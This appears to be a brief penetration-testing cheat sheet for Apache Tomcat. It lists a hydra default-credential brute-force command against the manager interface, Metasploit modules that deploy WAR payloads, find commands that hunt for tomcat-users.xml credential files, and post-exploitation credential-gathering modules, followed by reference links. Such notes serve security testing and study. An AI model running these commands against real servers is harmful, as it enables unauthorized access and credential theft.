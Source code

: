 # Apache Tomcat

`$ hydra -C Seclists/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt http-get://<IP>:<PORT>/manager/html`

```
msf > exploit/multi/http/tomcat_mgr_deploy

msf > use exploit/multi/http/tomcat_mgr_upload
```

https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/exploit/multi/http/tomcat_mgr_deploy.md

https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/exploit/multi/http/tomcat_mgr_upload.md

https://vk9-sec.com/apache-tomcat-manager-war-reverse-shell/

```
$ find / -name "tomcat-users.xml" 2>/dev/null

$ find / -name "tomcat-users.xml" 2>&1
```

`meterpreter > run post/windows/gather/enum_tomcat`

`msf > use post/multi/gather/tomcat_gather`

https://viperone.gitbook.io/pentest-everything/everything/ports/ports-8080-8180-apache-tomcat

https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/post/multi/gather/tomcat_gather.md

---
## References

- [Hacktricks: Tomcat](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/tomcat)

- [Hacking Articles: Tomcat Penetration Testing](https://www.hackingarticles.in/tomcat-penetration-testing/)

https://charlesreid1.com/wiki/Metasploitable/Apache/Tomcat_and_Coyote